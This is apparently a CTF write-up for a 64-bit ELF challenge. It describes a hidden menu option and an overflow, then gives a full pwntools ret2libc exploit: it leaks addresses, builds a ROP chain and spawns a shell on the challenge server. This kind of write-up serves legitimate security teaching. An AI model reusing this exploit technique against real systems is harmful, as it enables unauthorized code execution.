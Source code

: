 
![task1](imgs/1.png)
### Information
We were given a 64bit ELF file.
When we run the binary, the program is showing a menu , ( read run and exit ). The run function is useless, so we can only perform the read operation.

But when decompiling the binary, we have one more option that is not shown in the menu message, which is "gomugomunomi" that calls mugiwara function.

The **mugiwara** function seems a bit complicated,first it initialize an integer variable named  **len** to 40.

Then it's copying each char of the buffer that we've read from the readSC function into another buffer.Inside the loop, it's checking if the char is 'z' 
![task1](imgs/2.png)

Running the binary, we can see that it's leaking an address, then asking for an input.

![task1](imgs/3.png)


### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
from time import sleep
#p = process("./one_piece")
p = remote("100.26.85.87",1238)
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazz"
p.sendline("read")
p.sendline(payload)
p.sendline("gomugomunomi")
p.recvuntil("right ? : ")
leak = int("0x" + p.recvline(),16)
binaire = leak - 0xa3a
puts_plt = binaire + 0x720
printf_plt = binaire + 0x1040
#Gadgets
poprdi = binaire + 0xba3
ret = binaire + 0x000000000000070e

log.info("binary base = "+hex(binaire))
pause()
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binaire+0x201fa0) #puts_got
payload += p64(puts_plt)
payload += p64(binaire+0x7a0) #_start

p.sendline(payload)
p.recvline()

leaklibc = u64(p.recvline().ljust(8,"\x00")) % 0xa000000000000
print "leaklibc = ",hex(leaklibc)
base = leaklibc - libc.symbols['puts']
log.info("libc base = "+hex(base)) 
p.sendline("read")
p.sendline("A"*37 + "zz")
p.sendline("gomugomunomi")
sleep(2)
system = base + libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.info("/bin/sh = "+hex(binsh))
log.info("system = "+hex(system))
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(leak+0x5)
p.sendline(payload)
log.warn("sending payload ...")
p.sendline("cat flag.txt")
p.interactive()
```
